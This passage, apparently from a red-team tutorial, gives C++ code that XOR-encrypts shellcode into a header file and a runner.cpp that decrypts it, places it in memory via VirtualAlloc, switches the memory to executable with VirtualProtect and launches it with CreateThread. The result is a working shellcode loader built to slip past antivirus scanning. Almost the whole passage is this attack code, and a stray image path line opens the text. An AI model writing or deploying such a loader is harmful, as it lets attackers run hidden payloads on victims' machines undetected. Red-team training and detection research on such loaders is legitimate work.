 	int main() {
	    std::vector<unsigned char> encrypted(shellcode, shellcode + shellcode_size);
	    xor_encrypt(encrypted, key);
	
	    std::ofstream output("encrypted_shellcode.h");
	    output << "#pragma once\n";
	    output << "unsigned char encrypted_shellcode[] = {";
	    for (size_t i = 0; i < encrypted.size(); i++) {
	        output << "0x" << std::hex << (int)encrypted[i];
	        if (i != encrypted.size() - 1) output << ", ";
	    }
	    output << "};\n";
	    output << "const size_t shellcode_size = " << encrypted.size() << ";\n";
	    std::cout << "[+] Encrypted shellcode saved to encrypted_shellcode.h\n";
	    return 0;
	}
	
	```
3. Run the `runner.cpp` to run the encrypted payload:
   ```cpp
	#include <windows.h>
	#include <iostream>
	#include "encrypted_shellcode.h" // Include generated header
	
	const std::string key = "redteamexercises";
	
	// Decryption logic
	void xor_decrypt(unsigned char* data, size_t size, const std::string& key) {
	    for (size_t i = 0; i < size; i++) {
	        data[i] ^= key[i % key.size()];
	    }
	}
	
	int main() {
	    std::cout << "[+] Starting shellcode decryption and execution...\n";
	
	    xor_decrypt(encrypted_shellcode, shellcode_size, key);
	
	    void* exec_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	    if (!exec_mem) {
	        std::cerr << "[-] Memory allocation failed\n";
	        return 1;
	    }
	
	    memcpy(exec_mem, encrypted_shellcode, shellcode_size);
	
	    DWORD oldProtect;
	    if (!VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect)) {
	        std::cerr << "[-] Failed to change memory permissions\n";
	        return 1;
	    }
	
	    HANDLE hThread = CreateThread(nullptr, 0, (LPTHREAD_START_ROUTINE)exec_mem, nullptr, 0, nullptr);
	    if (!hThread) {
	        std::cerr << "[-] Thread creation failed\n";
	        return 1;
	    }
	
	    WaitForSingleObject(hThread, INFINITE);
	    return 0;
	}

	```
   ```